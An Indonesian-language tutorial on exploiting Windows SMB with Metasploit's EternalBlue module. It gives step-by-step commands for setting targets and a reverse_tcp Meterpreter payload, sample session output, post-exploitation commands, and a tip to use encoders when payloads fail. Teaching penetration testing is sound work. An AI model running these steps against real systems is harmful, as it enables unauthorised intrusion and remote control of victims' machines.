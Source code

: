 # Menjalankan Eksploitasi dengan Metasploit Framework

## Apa Itu Eksploitasi?

Eksploitasi adalah proses menyerang dan memanfaatkan kerentanan pada sistem target untuk mendapatkan akses tidak sah, baik melalui `shell`, `akses file`, atau `kontrol penuh`.

Dalam Metasploit Framework, eksploitasi dijalankan melalui modul `exploit` + `payload`, misalnya:

- **Exploit**: `exploit/windows/smb/ms17_010_eternalblue`
- **Payload**: `windows/meterpreter/reverse_tcp`

## Proses Dasar Eksploitasi

Langkah-langkah umum untuk menjalankan eksploitasi di Metasploit Framework:

1. Pilih dan muat modul exploit
2. Tentukan target (RHOST, RPORT)
3. Pilih payload
4. Konfigurasi payload (LHOST, LPORT, dll)
5. Jalankan exploit
6. Kelola sesi yang terbuka (jika berhasil)

## Contoh: Eksploitasi SMB dengan EternalBlue (MS17-010)

### Langkah 1 - Buka MSFConsole

```
msfconsole
```

Tunggu sampai muncul prompt seperti ini:

```
msf6 >
```

### Langkah 2 - Cari Exploit yang Sesuai

```
search eternalblue
```

**Contoh hasil:**

```
exploit/windows/smb/ms17_010_eternalblue
```

### Langkah 3n - Gunakan Exploit

```
use exploit/windows/smb/ms17_010_eternalblue
```

### Langkah 4 - Lihat Opsi Konfigurasi

```
show options
```

### Langkah 5 - Setting Target dan Payload

```
set RHOSTS 192.168.1.10
set RPORT 445
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.5
set LPORT 4444
```

### Langkah 6 - Jalankan Exploit

```
exploit
```

Jika berhasil, kamu akan mendapatkan sesi Meterpreter.

### Contoh Output Berhasil:

```
[*] Sending stage (203846 bytes) to 192.168.1.10
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 2 opened (192.168.1.5:4444 -> 192.168.1.10:49158) at 2025-05-07 20:27:03 +0700

meterpreter > 
```

Setelah berhasil mendapatkan sesi Meterpreter, kamu bisa melakukan beberapa hal diantaranya:

Melihat informasi sistem target:

```
sysinfo
```

Menampilkan User ID (UID):

```
getuid
```

Membuka command shell (cmd.exe) dari mesin korban:

```
shell
```

## Troubleshooting Umum

| Masalah | Solusi |
|:--:|:--:|
| Tidak ada sesi yang terbuka	| Cek firewall, antivirus, atau salah setting RHOST/LHOST |
| Payload tidak terkirim | Gunakan encoder atau coba port lain |
| exploit stuck | Gunakan `set VERBOSE true` untuk debug |

## Kesimpulan

Eksploitasi di Metasploit Framework memerlukan:

1. Pemahaman modul dan payload
2. Konfigurasi parameter yang akurat
3. Kesabaran dan analisa ketika exploit gagal

Dengan latihan dan memahami pola kerja eksploitasi, kamu bisa mengeksekusi serangan yang lebih kompleks dan efisien.

Itu dia bagaimana caranya menjalankan eksploitasi dengan Metasploit Framework.
